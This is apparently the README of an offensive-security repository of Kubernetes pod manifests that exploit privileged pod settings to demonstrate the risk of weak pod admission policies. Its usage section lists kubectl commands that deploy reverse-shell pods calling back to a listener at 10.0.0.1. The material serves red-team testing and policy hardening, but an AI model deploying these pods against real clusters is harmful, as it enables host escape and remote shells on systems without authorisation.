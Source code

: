 # badPods

A collection of manifests that create pods with different elevated privileges. Quickly demonstrate the impact of allowing security sensitive pod specifications. 

## Background
Occasionally pods need access to privileged resources on the host, so the Kubernetes pod spec allows for it. However, this level of access should be granted with extreme caution. Administrators have ways to prevent the creation of pods with these security sensitive pod specifications using Pod Security Policies or with admission controllers like OPA Gatekeeper. However, the real-world security implication of allowing a certain attributes is not always understood, and quite often, pod creation polices are not as locked down as they should be. 

## Purpose
What if you can create a pod with just `hostNetwork`, just `hostPID`, just `hostIPC`, just `hostPath`, or just `privileged`? What can you do in each case? This repository aims to help you answer those questions. 

## Prerequisites
In order to be successful in this attack path, you'll need the following: 

1. Access to a cluster 
1. Permission to create one of the following resource types in at least one namespace.  
   * CronJob
   * DeamonSet
   * Deployment
   * Job
   * Pod
   * ReplicaSet
   * ReplicationController
   * StatefulSet
1. Access to exec into pods or a network policy that allows a reverse shell from a pod to reach you. 
1. A pod security policy (or other pod admission controller's logic) that allows pods to be created with one or more security sensitive attributes, or no pod security policy / pod admission controller at all

## The badPods line-up

### There are 8 ways to create a Pod
There might be a situation where you are not authorized to create pods, but you can create another resource type that will spin up the pods.

As [Eviatar Gerzi (@g3rzi)](https://twitter.com/g3rzi) points out in his talk [Compromising Kubernetes Cluster by Exploiting RBAC Permissions](https://published-prd.lanyonevents.com/published/rsaus20/sessionsFiles/18100/2020_USA20_DSO-W01_01_Compromising%20Kubernetes%20Cluster%20by%20Exploiting%20RBAC%20Permissions.pdf), "There are 8 ways to create a Pod". 

I've included manifests that will create each of my badPods as each of the 8 different resource types. 
### Reverse shells

In most situations, if you have permission to create pods, you also have permission to `exec` into them. However, that is not always the case, so a version of each manifest is included that will call back to your listener as soon as the pod is created. 

Notes | readme | pod | revshell
-- | -- | -- | --
Everything allowed | [readme](manifests/everything-allowed/) | [manifest](manifests/everything-allowed/everything-allowed.yaml) | [manifest](manifests/everything-allowed/everything-allowed-revshell.yaml)
Privileged and hostPid | [readme](manifests/priv-and-hostpid/) | [manifest](manifests/priv-and-hostpid/pod-priv-and-hostpid.yaml) | [manifest](manifests/priv-and-hostpid/pod-priv-and-hostpid-revshell.yaml)
Privileged only | [readme](manifests/priv/) | [manifest](manifests/priv/pod-priv.yaml) | [manifest](manifests/priv/pod-priv-revshell.yaml)
hostPath only | [readme](manifests/hostpath/) | [manifest](manifests/hostpath/hostpath-exec.yaml) | [manifest](manifests/hostpath/hostpath-revshell.yaml)  
hostPid only | [readme](manifests/hostpid/) | [manifest](manifests/hostpid/hostpid.yaml) | [manifest](manifests/hostpid/hostpid-revshell.yaml)  
hostNetwork only | [readme](manifests/hostnetwork/) | [manifest](manifests/hostnetwork/hostnetwork-exec.yaml) | [manifest](manifests/hostnetwork/hostnetwork-revshell.yaml)
hostIPC only | [readme](manifests/hostipc/) | [manifest](manifests/hostipc/hostipc-exec.yaml) | [manifest](manifests/hostipc/hostipc-revshell.yaml)
Nothing allowed | [readme](manifests/nothing-allowed/) | [manifest](manifests/nothing-allowed/nothing-allowed.yaml) | [manifest](manifests/nothing-allowed/nothing-allowed-revshell.yaml)


# Impact - What's the worst that can happen?
Check out blog post here

# Usage
 Each resource in the `manifests` directory targets a specific attribute or a combination of attributes that expose the cluster to risk when allowed. Within each badPod type, there are manifests that will create the 8 different resource types that in turn create pods. Each subdirectory has it's own usage information which includes tailored post-exploitation ideas and steps.  

### Clone the repo
```bash
git clone https://github.com/BishopFox/badPods
cd badPods
```

### Create the pods (or at least try to create them)

```bash
kubectl apply -f ./yaml/everything-allowed/everything-allowed.yaml
kubectl apply -f ./yaml/priv-and-hostpid/pod-priv-and-hostpid.yaml 
kubectl apply -f ./yaml/priv/pod-priv.yaml
kubectl apply -f ./yaml/hostpath/hostpath-exec.yaml
kubectl apply -f ./yaml/hostpid/hostpid.yaml 
kubectl apply -f ./yaml/hostnetwork/hostnetwork-exec.yaml
kubectl apply -f ./yaml/hostipc/hostipc-exec.yaml
kubectl apply -f ./yaml/nothing-allowed/nothing-allowed.yaml

```

### Reverse shell version of each pod
If you can create pods but not exec  into them, you can use the reverse shell version of each pod. To avoid having to edit each pod with your host and port, you can environment variables and the `envsubst` command. Remember to spin up all of your listeners first!

```bash
HOST="10.0.0.1" PORT="3111" envsubst < ./yaml/everything-allowed/everything-allowed-revshell.yaml | kubectl apply -f -
HOST="10.0.0.1" PORT="3112" envsubst < ./yaml/priv-and-hostpid/pod-priv-and-hostpid-revshell.yaml | kubectl apply -f -
HOST="10.0.0.1" PORT="3113" envsubst < ./yaml/priv/pod-priv-revshell.yaml | kubectl apply -f -
HOST="10.0.0.1" PORT="3114" envsubst < ./yaml/hostpath/hostpath-revshell.yaml | kubectl apply -f -
HOST="10.0.0.1" PORT="3115" envsubst < ./yaml/hostpid/hostpid-revshell.yaml  | kubectl apply -f -
HOST="10.0.0.1" PORT="3116" envsubst < ./yaml/hostnetwork/hostnetwork-revshell.yaml | kubectl apply -f -
HOST="10.0.0.1" PORT="3117" envsubst < ./yaml/hostipc/hostipc-revshell.yaml | kubectl apply -f -
HOST="10.0.0.1" PORT="3118" envsubst < ./yaml/nothing-allowed/nothing-allowed-revshell.yaml | kubectl apply -f -
```

# Acknowledgements 
Thank you [Rory McCune](https://twitter.com/raesene), [Duffie Cooley](https://twitter.com/mauilion), [Brad Geesaman](https://twitter.com/bradgeesaman), [Tabitha Sable](https://twitter.com/tabbysable), [Ian Coldwater](https://twitter.com/IanColdwater), and [Mark Manning](https://twitter.com/antitree) for publicly sharing so much knowledge about Kubernetes offensive security. 
